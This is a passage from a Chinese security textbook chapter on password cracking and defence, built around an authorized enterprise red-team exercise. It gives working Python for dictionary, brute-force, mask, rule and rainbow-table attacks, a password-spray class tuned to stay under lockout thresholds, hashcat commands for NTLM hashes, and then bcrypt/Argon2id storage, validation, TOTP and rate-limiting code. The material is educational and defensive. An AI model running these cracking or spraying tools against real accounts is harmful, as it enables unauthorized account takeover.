



## 13.7 案例：密码破解与防御

密码是人类使用最广泛的身份认证手段，也是安全链条中最脆弱的环节之一。Verizon《2025 DBIR》报告显示，约 68% 的数据泄露事件涉及"人为因素"，其中弱密码、凭据复用和钓鱼是最主要的突破口。本案例从攻防两端完整剖析密码破解的技术体系与防御方案，帮助读者建立"攻击者视角"下的密码安全认知。

### 13.7.1 场景背景

某中型企业（约 500 名员工）的安全团队在年度红蓝对抗演练中，对内部系统（AD 域、VPN、邮件、OA）进行密码强度评估。目标是：

1. 评估员工密码的实际强度分布
2. 测试常见破解技术的命中率
3. 识别高风险账户并制定加固方案
4. 验证现有密码策略的有效性

测试范围：从域控导出的 NTDS.dit 中提取的 487 个 NTLM 哈希，以及从 Web 应用数据库中导出的 312 个 bcrypt 哈希。所有操作均在授权范围内进行，测试环境与生产环境物理隔离。

### 13.7.2 密码破解攻击技术全景

密码破解并非单一技术，而是由多种攻击方法组成的体系。下图展示了主流攻击类型及其适用场景：



#### 在线攻击 vs 离线攻击

| 维度 | 在线攻击 | 离线攻击 |
|------|----------|----------|
| 目标 | 直接针对登录接口 | 针对已获取的密码哈希 |
| 速度限制 | 受网络延迟和服务端限速约束 | 仅受计算资源限制 |
| 检测风险 | 高，容易触发告警和锁定 | 低，攻击者在本地执行 |
| 前提条件 | 需要知道有效的用户名 | 需要获取密码哈希或数据库 |
| 典型场景 | 暴力破解 SSH、RDP | 破解 NTLM、bcrypt 哈希 |
| 防御难度 | 相对容易（限速、锁定） | 较难（核心依赖哈希算法强度） |

#### 13.7.2.1 字典攻击

**原理**：使用预先收集的常用密码列表逐一尝试，利用人类设置密码的规律性（常用词汇、生日、键盘模式等）。

**核心要素**：字典的质量直接决定攻击成功率。一个精心构造的字典通常包含以下来源：

| 来源类型 | 示例 | 说明 |
|----------|------|------|
| 泄露密码库 | RockYou（1400万）、HaveIBeenPwned（140亿+） | 真实世界密码泄露数据 |
| 语言词典 | 英语、中文拼音、日语罗马音 | 自然语言词汇组合 |
| 键盘模式 | qwerty、1qaz2wsx、zxcvbn | 键盘相邻键组合 |
| 社工字典 | 用户名、生日、手机号、公司名 | 基于目标个人信息生成 |
| 行业术语 | 项目名、产品编号、内部术语 | 针对特定企业定制 |

**实操演示**：

```python
import hashlib
import time

def dictionary_attack(target_hash, wordlist_file, hash_algo='sha256'):
    """
    字典攻击：逐一尝试字典中的密码，计算哈希后与目标比对。
    
    Args:
        target_hash: 目标哈希值（十六进制字符串）
        wordlist_file: 字典文件路径
        hash_algo: 哈希算法（md5/sha1/sha256）
    
    Returns:
        (破解结果, 尝试次数, 耗时) 或 (None, 尝试次数, 耗时)
    """
    start_time = time.time()
    attempts = 0
    h = hashlib.new(hash_algo)
    
    with open(wordlist_file, 'r', encoding='utf-8', errors='ignore') as f:
        for line in f:
            password = line.strip()
            if not password:
                continue
            attempts += 1
            h = hashlib.new(hash_algo)
            h.update(password.encode('utf-8'))
            if h.hexdigest() == target_hash:
                elapsed = time.time() - start_time
                return password, attempts, elapsed
    
    elapsed = time.time() - start_time
    return None, attempts, elapsed


def dictionary_attack_with_salts(target_entries, wordlist_file, hash_algo='sha256'):
    """
    带盐值的字典攻击。
    
    Args:
        target_entries: [(hash, salt), ...] 目标哈希和盐值的列表
        wordlist_file: 字典文件路径
    
    Returns:
        {hash: password} 破解结果字典
    """
    results = {}
    # 预加载字典到内存（适用于中等大小字典）
    with open(wordlist_file, 'r', encoding='utf-8', errors='ignore') as f:
        passwords = [line.strip() for line in f if line.strip()]
    
    for target_hash, salt in target_entries:
        for password in passwords:
            h = hashlib.new(hash_algo)
            h.update((salt + password).encode('utf-8'))
            if h.hexdigest() == target_hash:
                results[target_hash] = password
                break
    
    return results


# 示例：破解 SHA-256 哈希
if __name__ == '__main__':
    # 模拟目标哈希
    target = hashlib.sha256('your_password123'.encode()).hexdigest()
    print(f"目标哈希: {target}")
    
    result = dictionary_attack(target, '/usr/share/wordlists/rockyou.txt')
    if result[0]:
        print(f"破解成功: {result[0]} (尝试 {result[1]} 次, 耗时 {result[2]:.2f}s)")
    else:
        print(f"破解失败 (尝试 {result[1]} 次, 耗时 {result[2]:.2f}s)")
```

#### 13.7.2.2 暴力穷举攻击

**原理**：系统性地尝试所有可能的字符组合，理论上可以破解任何密码，但随着密码长度增长，时间成本呈指数级增长。

**时间复杂度分析**：

| 密码长度 | 字符集大小 | 组合总数 | 每秒10亿次尝试所需时间 |
|----------|-----------|---------|----------------------|
| 4位（纯数字） | 10 | 10,000 | 0.00001秒 |
| 6位（纯数字） | 10 | 1,000,000 | 0.001秒 |
| 8位（小写字母） | 26 | 208,827,064,576 | 约3.5分钟 |
| 8位（大小写+数字） | 62 | 218,340,105,584,896 | 约2.5天 |
| 8位（全字符集） | 95 | 6,634,204,312,890,625 | 约77天 |
| 12位（全字符集） | 95 | 5.4×10²³ | 约1700万年 |

```python
import itertools
import string
import hashlib

def brute_force_attack(target_hash, charset, max_length, hash_algo='sha256'):
    """
    暴力穷举攻击：尝试所有可能的字符组合。
    
    Args:
        target_hash: 目标哈希值
        charset: 字符集，如 string.ascii_lowercase + string.digits
        max_length: 最大密码长度
        hash_algo: 哈希算法
    
    Returns:
        破解结果或 None
    """
    for length in range(1, max_length + 1):
        for combo in itertools.product(charset, repeat=length):
            password = ''.join(combo)
            h = hashlib.new(hash_algo)
            h.update(password.encode('utf-8'))
            if h.hexdigest() == target_hash:
                return password
    return None


def brute_force_optimized(target_hash, charset, max_length, hash_algo='sha256'):
    """
    优化版暴力穷举：跳过低概率组合，优先尝试常见模式。
    策略：先尝试短密码，先尝试高频字符。
    """
    # 按频率排序字符（英文文本中出现频率从高到低）
    frequency_order = 'etaoinsrhldcumwfgypbvkjxqz'
    sorted_charset = sorted(charset, 
                           key=lambda c: frequency_order.find(c.lower()) 
                           if c.lower() in frequency_order else 99)
    
    for length in range(1, max_length + 1):
        count = 0
        for combo in itertools.product(sorted_charset, repeat=length):
            password = ''.join(combo)
            h = hashlib.new(hash_algo)
            h.update(password.encode('utf-8'))
            count += 1
            if h.hexdigest() == target_hash:
                return password, count
    return None, 0
```

#### 13.7.2.3 掩码攻击

**原理**：当已知密码的部分结构时，只穷举未知部分。这是实际破解中最常用的优化策略，比纯暴力穷举高效数个数量级。

**场景举例**：知道某公司密码策略要求"大写开头+小写+数字+特殊符号"，且密码长度为8位，则掩码为 `?u?l?l?l?l?d?d?s`，搜索空间从 95⁸ 缩减到 26×26⁴×10²×33 ≈ 2.4×10⁹，缩减约 275 万倍。

```python
import string
import itertools
import hashlib

def mask_attack(target_hash, mask_pattern, hash_algo='sha256'):
    """
    掩码攻击：根据已知的密码结构模式进行定向穷举。
    
    掩码字符定义：
        ?l = 小写字母 (a-z)
        ?u = 大写字母 (A-Z)
        ?d = 数字 (0-9)
        ?s = 特殊符号 (!@#$%^&*...)
        ?a = 所有可打印字符
    
    Args:
        target_hash: 目标哈希
        mask_pattern: 掩码模式字符串，如 "?u?l?l?l?d?d?d?d"
        hash_algo: 哈希算法
    """
    charset_map = {
        'l': string.ascii_lowercase,
        'u': string.ascii_uppercase,
        'd': string.digits,
        's': '!@#$%^&*()-_=+[]{}|;:,.<>?',
        'a': string.printable.strip(),
    }
    
    # 解析掩码模式，提取每个位置的字符集
    charsets = []
    i = 0
    while i < len(mask_pattern):
        if mask_pattern[i] == '?' and i + 1 < len(mask_pattern):
            char_type = mask_pattern[i + 1]
            if char_type in charset_map:
                charsets.append(charset_map[char_type])
            i += 2
        else:
            # 固定字符
            charsets.append(mask_pattern[i])
            i += 1
    
    # 生成所有组合
    for combo in itertools.product(*charsets):
        password = ''.join(combo)
        h = hashlib.new(hash_algo)
        h.update(password.encode('utf-8'))
        if h.hexdigest() == target_hash:
            return password
    return None


# 使用示例：已知密码为"大写字母+3个小写+4位数字"结构
# mask = "?u?l?l?l?d?d?d?d"
# result = mask_attack(target_hash, mask)
```

#### 13.7.2.4 规则攻击（Rule-based Attack）

**原理**：在字典基础上，通过预定义的变换规则对每个词进行变形，生成大量变体。这是字典攻击和暴力穷举之间的最优平衡——兼具覆盖面和效率。

**常见变换规则**：

| 规则类别 | 变换示例 | 说明 |
|----------|----------|------|
| 大小写变换 | password → Password, PASSWORD, pASSWORD | 首字母大写、全大写、交替大小写 |
| 数字追加 | password → password1, password123, password2024 | 常见数字后缀 |
| 符号追加 | password → password!, password@, password#1 | 特殊符号后缀 |
| 字母替换 | password → p@ssw0rd, pa$$word, p4ssw0rd | 常见字母-符号替换映射 |
| 前缀添加 | password → 1password, !password, adminpassword | 常见前缀 |
| 键盘移位 | password → qassword, oassword | 相邻键替换 |
| 拼接组合 | pass + word → password | 词典词组合 |
| 截断/重复 | password → passpass, wordword | 子串操作 |

**Hashcat 规则文件示例**（`custom.rule`）：

```bash
# 首字母大写 + 追加数字
:c  $1
:c  $2
:c  $1 $2 $3
:c  $2 $0 $2 $4

# 字母替换 (leet speak)
sa@  so0  se3  si1  sl1  ss$

# 组合规则：首字母大写 + 字母替换 + 追加符号
:c sa@ so0 se3 $!
:c sa@ so0 $@ $1

# 追加年份
$2 $0 $2 $4
$2 $0 $2 $5
$2 $0 $2 $6
```

```python
import hashlib

def rule_based_attack(target_hash, wordlist_file, rules, hash_algo='sha256'):
    """
    规则攻击：对字典中的每个词应用变换规则，生成变体后尝试。
    
    Args:
        target_hash: 目标哈希
        wordlist_file: 字典文件路径
        rules: 变换规则函数列表
        hash_algo: 哈希算法
    
    Returns:
        (破解结果, 命中规则) 或 None
    """
    def apply_rules(password, rules):
        """对一个密码应用所有规则，生成变体列表"""
        variants = {password}
        for rule in rules:
            variants.update(rule(password))
        return variants
    
    # 定义常用变换规则
    def rule_capitalize(p): return {p.capitalize()}
    def rule_upper(p): return {p.upper()}
    def rule_append_digits(p): 
        return {p + str(i) for i in range(10)}
    def rule_append_common(p):
        return {p + s for s in ['!', '@', '#', '123', '!', '2024', '2025']}
    def rule_leet(p):
        table = {'a':'@', 'e':'3', 'i':'1', 'o':'0', 's':'$', 't':'7'}
        result = ''
        for c in p:
            result += table.get(c, c)
        return {result}
    def rule_reverse(p): return {p[::-1]}
    def rule_double(p): return {p + p}
    
    default_rules = [
        rule_capitalize, rule_upper, rule_append_digits,
        rule_append_common, rule_leet, rule_reverse, rule_double
    ]
    
    if not rules:
        rules = default_rules
    
    with open(wordlist_file, 'r', encoding='utf-8', errors='ignore') as f:
        for line in f:
            base = line.strip()
            if not base:
                continue
            
            variants = apply_rules(base, rules)
            for variant in variants:
                h = hashlib.new(hash_algo)
                h.update(variant.encode('utf-8'))
                if h.hexdigest() == target_hash:
                    return variant, base
    
    return None, None
```

#### 13.7.2.5 彩虹表攻击

**原理**：彩虹表是一种时空权衡（Time-Memory Tradeoff）技术。通过预计算"明文→哈希"的查找表，用存储空间换取破解速度。彩虹表使用归约函数（reduction function）将哈希值映射回明文空间，形成"链"式结构，大幅压缩存储需求。

**与简单查找表的区别**：

| 特性 | 简单查找表 | 彩虹表 |
|------|-----------|--------|
| 存储方式 | 直接存储 (明文, 哈希) 对 | 只存储链的起点和终点 |
| 存储效率 | 低，1:1 存储 | 高，链式压缩 |
| 查找速度 | O(1) 直接查找 | O(log n) + 链重建 |
| 适用哈希 | 无盐哈希 | 无盐哈希 |
| 对盐值的抵抗 | 完全失效 | 完全失效 |

```python
import hashlib
import random
import string

class RainbowTable:
    """
    彩虹表实现（教学演示版）。
    生产环境应使用专用工具如 rainbowcrack、rcracki。
    """
    
    def __init__(self, charset, max_length, chain_length, num_chains, hash_algo='md5'):
        self.charset = charset
        self.max_length = max_length
        self.chain_length = chain_length
        self.num_chains = num_chains
        self.hash_algo = hash_algo
        self.chains = {}  # {end_hash: start_plaintext}
    
    def _hash(self, plaintext):
        h = hashlib.new(self.hash_algo)
        h.update(plaintext.encode('utf-8'))
        return h.hexdigest()
    
    def _reduce(self, hash_value, step):
        """归约函数：将哈希值映射回明文空间，每步使用不同的归约"""
        index = int(hash_value, 16) + step
        length = (index % (self.max_length - 1)) + 1  # 密码长度 1~max_length
        
        result = []
        for i in range(length):
            idx = (index >> (i * 5)) % len(self.charset)
            result.append(self.charset[idx])
        
        return ''.join(result)
    
    def generate(self):
        """生成彩虹表"""
        print(f"生成彩虹表: {self.num_chains} 条链, 链长 {self.chain_length}")
        for i in range(self.num_chains):
            # 随机生成起始明文
            start_plain = ''.join(random.choices(self.charset, k=random.randint(1, self.max_length)))
            
            current = start_plain
            for step in range(self.chain_length):
                hash_val = self._hash(current)
                current = self._reduce(hash_val, step)
            
            # 存储链的起始明文和最终哈希
            final_hash = self._hash(current)
            self.chains[final_hash] = start_plain
            
            if (i + 1) % 10000 == 0:
                print(f"  已生成 {i + 1}/{self.num_chains} 条链")
        
        print(f"彩虹表生成完成, 共 {len(self.chains)} 条链")
    
    def lookup(self, target_hash):
        """
        在彩虹表中查找目标哈希。
        需要从链尾逐步重建链，比对中间哈希。
        """
        # 检查目标哈希是否在链的中间位置
        for start_step in range(self.chain_length - 1, -1, -1):
            current_hash = target_hash
            
            # 从 start_step 位置继续推导到链尾
            for step in range(start_step, self.chain_length):
                plain = self._reduce(current_hash, step)
                current_hash = self._hash(plain)
            
            # 检查推导结果是否匹配某条链的终点
            if current_hash in self.chains:
                # 找到匹配链，从头重建以找到确切的明文
                start_plain = self.chains[current_hash]
                current = start_plain
                for step in range(self.chain_length):
                    h = self._hash(current)
                    if h == target_hash:
                        return current
                    current = self._reduce(h, step)
        
        return None


# 使用示例
if __name__ == '__main__':
    charset = string.ascii_lowercase + string.digits
    rt = RainbowTable(
        charset=charset,
        max_length=6,
        chain_length=1000,
        num_chains=50000,
        hash_algo='md5'
    )
    rt.generate()
    
    # 测试破解
    test_password = 'hello'
    test_hash = hashlib.md5(test_password.encode()).hexdigest()
    result = rt.lookup(test_hash)
    print(f"目标密码: {test_password}, 破解结果: {result}")
```

**彩虹表的致命弱点——盐值**：彩虹表只能攻击无盐哈希。一旦每个密码使用独立的随机盐值，彩虹表就完全失效，因为预计算的哈希链在盐值不同的情况下无法复用。这是现代密码存储的基本要求。

#### 13.7.2.6 凭据填充与密码喷射

这两种是在线攻击场景中最高频的手法，区别在于攻击向量的选择：



**凭据填充（Credential Stuffing）**：利用一个站点泄露的账号密码，在其他站点批量登录。前提是用户在多个站点复用同一密码。根据统计，约 65% 的用户在多个网站使用相同密码。

**密码喷射（Password Spray）**：使用少量极常见密码（如 `Company123!`、`Summer2024!`），针对大量用户名逐一尝试。优势是每个账户只尝试1-2次，不会触发账户锁定策略。

```python
import requests
import time
from concurrent.futures import ThreadPoolExecutor

class PasswordSprayAttack:
    """
    密码喷射攻击演示（仅用于授权安全测试）。
    对大量用户名尝试少量常见密码，避免触发锁定。
    """
    
    def __init__(self, target_url, usernames, passwords, 
                 lockout_threshold=5, lockout_window=300):
        """
        Args:
            target_url: 登录接口地址
            usernames: 用户名列表
            passwords: 候选密码列表（少量，1-5个）
            lockout_threshold: 锁定阈值（多少次失败后锁定）
            lockout_window: 锁定窗口时间（秒）
        """
        self.target_url = target_url
        self.usernames = usernames
        self.passwords = passwords
        self.lockout_threshold = lockout_threshold
        self.lockout_window = lockout_window
        self.successes = []
    
    def try_login(self, username, password):
        """尝试一次登录"""
        try:
            response = requests.post(self.target_url, data={
                'username': username,
                'password': password
            }, timeout=10)
            
            # 根据响应判断登录是否成功
            if response.status_code == 200 and 'dashboard' in response.url:
                return True
            return False
        except requests.RequestException:
            return False
    
    def execute(self):
        """
        执行密码喷射攻击。
        策略：每个密码遍历所有用户名，然后等待锁定窗口。
        """
        print(f"[*] 目标: {self.target_url}")
        print(f"[*] 用户名数: {len(self.usernames)}")
        print(f"[*] 候选密码数: {len(self.passwords)}")
        print(f"[*] 锁定策略: {self.lockout_threshold}次/{self.lockout_window}秒")
        
        for password in self.passwords:
            print(f"\n[*] 尝试密码: {password}")
            attempts = 0
            
            for username in self.usernames:
                if self.try_login(username, password):
                    self.successes.append((username, password))
                    print(f"  [+] 成功: {username}:{password}")
                
                attempts += 1
                # 控制频率，确保不触发锁定
                # 每个密码尝试次数 < 锁定阈值
                if attempts >= self.lockout_threshold - 1:
                    print(f"  [*] 达到安全阈值，等待 {self.lockout_window}s ...")
                    time.sleep(self.lockout_window)
                    attempts = 0
                else:
                    time.sleep(1)  # 基础延迟
        
        print(f"\n[*] 攻击完成, 成功 {len(self.successes)} 个账号")
        return self.successes
```

#### 13.7.2.7 GPU 加速与专业工具

现代密码破解的速度瓶颈在于哈希计算的吞吐量。GPU 擅长大规模并行计算，因此成为密码破解的核心硬件。

**主流破解工具对比**：

| 工具 | 类型 | GPU 支持 | 特点 | 适用场景 |
|------|------|----------|------|----------|
| Hashcat | 离线 | 多 GPU | 支持 300+ 哈希类型，规则丰富 | 生产级离线破解 |
| John the Ripper | 离线 | 可选 | 模块化设计，社区规则多 | 通用离线破解 |
| Hydra | 在线 | 无 | 支持 50+ 协议 | 在线协议爆破 |
| Medusa | 在线 | 无 | 并行度高，模块化 | 在线协议爆破 |
| CrackStation | 在线服务 | N/A | 预计算海量哈希查找表 | 无盐哈希快速查询 |

**不同哈希算法的破解速度对比**（单张 RTX 4090）：

| 哈希算法 | 每秒尝试次数 | 8位混合密码穷举时间 |
|----------|-------------|-------------------|
| MD5 | ~1640 亿次/秒 | 约 11.6 小时 |
| SHA-1 | ~530 亿次/秒 | 约 1.5 天 |
| SHA-256 | ~220 亿次/秒 | 约 3.6 天 |
| NTLM | ~3000 亿次/秒 | 约 5.5 小时 |
| bcrypt (cost=10) | ~18.4 万次/秒 | 约 11 万年 |
| bcrypt (cost=12) | ~4.6 万次/秒 | 约 44 万年 |
| Argon2id | ~数千次/秒 | 不可行 |

```bash
# Hashcat 常用命令示例

# 字典攻击
hashcat -m 0 -a 0 hashes.txt rockyou.txt
# -m 0 = MD5, -a 0 = 字典攻击

# 带规则的字典攻击
hashcat -m 0 -a 0 hashes.txt rockyou.txt -r rules/best64.rule

# 掩码攻击（8位：大写+小写+数字+特殊）
hashcat -m 0 -a 3 hashes.txt ?u?l?l?l?l?d?d?s

# 组合攻击（两个字典拼接）
hashcat -m 0 -a 1 hashes.txt dict1.txt dict2.txt

# 掩码攻击（已知前3位）
hashcat -m 0 -a 3 hashes.txt Pas?l?l?l?d?d

# NTLM 哈希破解（Windows 域控提取）
hashcat -m 1000 ntlm_hashes.txt rockyou.txt -r rules/d3ad0ne.rule

# 破解压缩包密码
hashcat -m 13600 zip_hash.txt rockyou.txt

# 多 GPU 并行
hashcat -m 0 -a 3 hashes.txt ?a?a?a?a?a?a?a?a -d 1,2,3

# 断点续跑
hashcat --session=crack1 --restore
```

#### 13.7.2.8 本案例实测结果

在本次红蓝对抗中，安全团队的测试结果：

| 攻击方法 | 目标 | 尝试量 | 成功破解 | 耗时 |
|----------|------|--------|---------|------|
| 字典攻击（RockYou） | 487 NTLM | 1400万 | 189 (38.8%) | 2分钟 |
| 字典+规则（best64） | 487 NTLM | 9亿 | 267 (54.8%) | 15分钟 |
| 掩码攻击 (?u?l?l?l?d?d?d?d) | 剩余 220 | 11亿 | 43 (19.5%) | 45分钟 |
| 彩虹表（无盐 MD5） | Web 应用 312 | N/A | 无法使用（bcrypt） | N/A |
| 密码喷射 | 500 账户 | 5 密码 | 12 (2.4%) | 4小时 |

**关键发现**：

1. **54.8% 的域账户密码可在 15 分钟内破解**——说明密码策略形同虚设
2. 最常见密码 Top 5：`Company123!`（23个账户）、`Summer2024!`（17个）、`your_password`（14个）、`Welcome1!`（11个）、用户名作为密码（9个）
3. bcrypt 密码哈希在预算范围内无法被有效破解——验证了安全哈希算法的价值
4. 密码喷射以极低代价获得了 12 个有效凭据，且未触发任何告警

### 13.7.3 密码存储安全：从"不该做什么"到"应该怎么做"

破解之所以能成功，根源往往在于密码存储方式不当。

#### 13.7.3.1 密码存储的反模式（绝对不要这样做）

```python
# ❌ 绝对不要：明文存储密码
users = {'admin': 'your_password123', 'user1': '123456'}

# ❌ 绝对不要：无盐 MD5
import hashlib
password_hash = hashlib.md5(password.encode()).hexdigest()

# ❌ 绝对不要：无盐 SHA-256
password_hash = hashlib.sha256(password.encode()).hexdigest()

# ❌ 绝对不要：自创加密算法
def my_encrypt(password):
    return ''.join(chr(ord(c) + 3) for c in password)  # 凯撒密码式的"加密"
```

**为什么普通哈希（即使加盐）也不够？**

问题不在于"是否使用了哈希"，而在于"计算速度"。MD5、SHA-1、SHA-256 这些通用哈希算法设计目标是"快速计算"，在 GPU 上每秒可计算数百亿次。这意味着 8 位混合密码在几小时内就能穷举完毕。

#### 13.7.3.2 正确的密码哈希方案

现代密码哈希必须具备三个特性：

1. **慢速计算**（故意消耗时间和计算资源，对抗暴力破解）
2. **盐值（Salt）**（每个密码使用独立随机盐，防止彩虹表和批量破解）
3. **可调成本**（随着硬件性能提升，可以增加计算开销）

```python
# ✅ 正确方案 1：bcrypt（推荐，最广泛验证）
import bcrypt

def hash_password_bcrypt(password: str) -> bytes:
    """使用 bcrypt 哈希密码"""
    # cost factor = 12 (2^12 = 4096 轮迭代)
    # 耗时约 250ms（现代 CPU），对合法用户可接受，对暴力破解极其昂贵
    salt = bcrypt.gensalt(rounds=12)
    hashed = bcrypt.hashpw(password.encode('utf-8'), salt)
    return hashed

def verify_password_bcrypt(password: str, hashed: bytes) -> bool:
    """验证密码"""
    return bcrypt.checkpw(password.encode('utf-8'), hashed)


# ✅ 正确方案 2：Argon2id（OWASP 推荐，2015 年密码哈希竞赛冠军）
from argon2 import PasswordHasher
from argon2.exceptions import VerifyMismatchError

ph = PasswordHasher(
    time_cost=3,        # 迭代次数
    memory_cost=65536,  # 内存消耗 64MB
    parallelism=4,      # 并行度
    hash_len=32,        # 输出哈希长度
    salt_len=16         # 盐值长度
)

def hash_password_argon2(password: str) -> str:
    """使用 Argon2id 哈希密码"""
    return ph.hash(password)

def verify_password_argon2(password: str, hashed: str) -> bool:
    """验证密码"""
    try:
        return ph.verify(hashed, password)
    except VerifyMismatchError:
        return False


# ✅ 正确方案 3：scrypt（Go 标准库内置）
import hashlib

def hash_password_scrypt(password: str) -> str:
    """使用 scrypt 哈希密码"""
    salt = os.urandom(32)
    key = hashlib.scrypt(
        password.encode('utf-8'),
        salt=salt,
        n=16384,  # CPU/内存成本
        r=8,      # 块大小
        p=1       # 并行度
    )
    return salt.hex() + ':' + key.hex()
```

**算法选型建议**：

| 场景 | 推荐算法 | 理由 |
|------|---------|------|
| 新项目（通用） | Argon2id | OWASP 推荐，抗 GPU/ASIC |
| 已有 bcrypt 项目 | bcrypt | 成熟稳定，无需迁移 |
| 内存受限环境 | bcrypt | 内存需求最低 |
| 需要最高安全级别 | Argon2id | 可调内存消耗，最优抗破解能力 |
| Go 后端 | scrypt 或 bcrypt | 标准库支持 |

#### 13.7.3.3 正确实现密码验证

```python
import re
from dataclasses import dataclass
from typing import Optional

@dataclass
class PasswordPolicy:
    """密码策略配置"""
    min_length: int = 12          # 最小长度
    max_length: int = 128         # 最大长度（防 DoS）
    require_uppercase: bool = True
    require_lowercase: bool = True
    require_digit: bool = True
    require_special: bool = True
    disallow_username: bool = True
    disallow_common: bool = True
    min_unique_chars: int = 5     # 最少不同字符数
    
    # 常见弱密码黑名单（简化版，实际应用应使用完整列表）
    blacklist: set = None
    
    def __post_init__(self):
        if self.blacklist is None:
            self.blacklist = {
                'password', '123456', '12345678', 'qwerty', 'abc123',
                'monkey', 'master', 'dragon', 'login', 'princess',
                'football', 'shadow', 'sunshine', 'trustno1', 'iloveyou',
                'password1', 'password123', 'admin', 'letmein', 'welcome',
                'p@ssw0rd', 'passw0rd', 'qwerty123', '1qaz2wsx',
            }


def validate_password(password: str, username: str = None, 
                      policy: PasswordPolicy = None) -> tuple[bool, list[str]]:
    """
    密码强度验证：检查密码是否满足策略要求。
    
    Args:
        password: 待验证的密码
        username: 用户名（用于检查密码是否包含用户名）
        policy: 密码策略
    
    Returns:
        (是否通过, 错误信息列表)
    """
    if policy is None:
        policy = PasswordPolicy()
    
    errors = []
    
    # 长度检查
    if len(password) < policy.min_length:
        errors.append(f"密码长度至少 {policy.min_length} 位")
    if len(password) > policy.max_length:
        errors.append(f"密码长度不能超过 {policy.max_length} 位")
    
    # 字符类型检查
    if policy.require_uppercase and not re.search(r'[A-Z]', password):
        errors.append("密码必须包含至少一个大写字母")
    if policy.require_lowercase and not re.search(r'[a-z]', password):
        errors.append("密码必须包含至少一个小写字母")
    if policy.require_digit and not re.search(r'[0-9]', password):
        errors.append("密码必须包含至少一个数字")
    if policy.require_special and not re.search(r'[!@#$%^&*()_+\-=\[\]{}|;:,.<>?]', password):
        errors.append("密码必须包含至少一个特殊字符")
    
    # 唯一字符数
    if len(set(password)) < policy.min_unique_chars:
        errors.append(f"密码至少需要 {policy.min_unique_chars} 个不同字符")
    
    # 用户名检查
    if policy.disallow_username and username:
        if username.lower() in password.lower():
            errors.append("密码不能包含用户名")
    
    # 黑名单检查
    if policy.disallow_common:
        if password.lower() in policy.blacklist:
            errors.append("密码过于常见，请使用更复杂的密码")
    
    # 连续字符检查
    def has_repeated_sequence(s, length=3):
        for i in range(len(s) - length + 1):
            if len(set(s[i:i+length])) == 1:
                return True
        return False
    
    def has_sequential(s, length=4):
        for i in range(len(s) - length + 1):
            segment = s[i:i+length]
            if segment in 'abcdefghijklmnopqrstuvwxyz' or segment in '0123456789':
                return True
            if segment in 'zyxwvutsrqponmlkjihgfedcba' or segment in '9876543210':
                return True
        return False
    
    if has_repeated_sequence(password):
        errors.append("密码不能包含连续重复字符（如 aaa、111）")
    
    if has_sequential(password):
        errors.append("密码不能包含连续递增/递减序列（如 abcd、1234）")
    
    return len(errors) == 0, errors
```

### 13.7.4 完整防御方案

仅靠"强密码"不足以构建完整的密码安全体系。需要从存储、认证、监控、应急多个层面构建纵深防御。

#### 13.7.4.1 密码策略与管理



#### 13.7.4.2 多因素认证（MFA）

MFA 是密码安全最有效的补强措施。即使密码被破解，攻击者仍需通过第二因素验证。

| MFA 类型 | 安全等级 | 用户体验 | 推荐程度 |
|----------|---------|---------|---------|
| SMS 短信验证码 | 低（可被 SIM Swap 攻击） | 好 | 不推荐 |
| TOTP（Google Authenticator） | 高 | 较好 | 推荐 |
| FIDO2/WebAuthn 硬件密钥 | 最高 | 好 | 强烈推荐 |
| 推送通知（如 Duo Push） | 中高 | 最好 | 推荐 |
| 生物识别（指纹/面部） | 中高 | 最好 | 辅助使用 |

```python
import pyotp
import qrcode
import io
import base64

class TOTPAuthenticator:
    """TOTP 双因素认证实现"""
    
    def __init__(self):
        self.issuer = "MyCompany"
    
    def generate_secret(self) -> str:
        """为用户生成 TOTP 密钥"""
        return pyotp.random_base32()
    
    def get_provisioning_uri(self, secret: str, username: str) -> str:
        """生成用于二维码的 URI"""
        totp = pyotp.TOTP(secret)
        return totp.provisioning_uri(
            name=username,
            issuer_name=self.issuer
        )
    
    def generate_qr_code(self, secret: str, username: str) -> str:
        """生成二维码图片的 base64 编码"""
        uri = self.get_provisioning_uri(secret, username)
        qr = qrcode.QRCode(version=1, box_size=10, border=5)
        qr.add_data(uri)
        qr.make(fit=True)
        img = qr.make_image(fill_color="black", back_color="white")
        
        buffer = io.BytesIO()
        img.save(buffer, format='PNG')
        return base64.b64encode(buffer.getvalue()).decode()
    
    def verify_token(self, secret: str, token: str, 
                     window: int = 1) -> bool:
        """
        验证 TOTP 令牌。
        window=1 表示允许前后各1个时间窗口（30秒）的偏移。
        """
        totp = pyotp.TOTP(secret)
        return totp.verify(token, valid_window=window)
```

#### 13.7.4.3 账户锁定与限速策略

```python
import time
import threading
from collections import defaultdict
from dataclasses import dataclass, field

@dataclass
class LoginRateLimiter:
    """
    登录速率限制器。
    实现渐进式延迟和账户锁定。
    """
    # 策略配置
    max_attempts_per_minute: int = 5
    max_attempts_per_hour: int = 20
    lockout_duration: int = 900       # 锁定时间（秒）
    progressive_delay_base: float = 1.0  # 渐进延迟基数（秒）
    
    # 内部状态
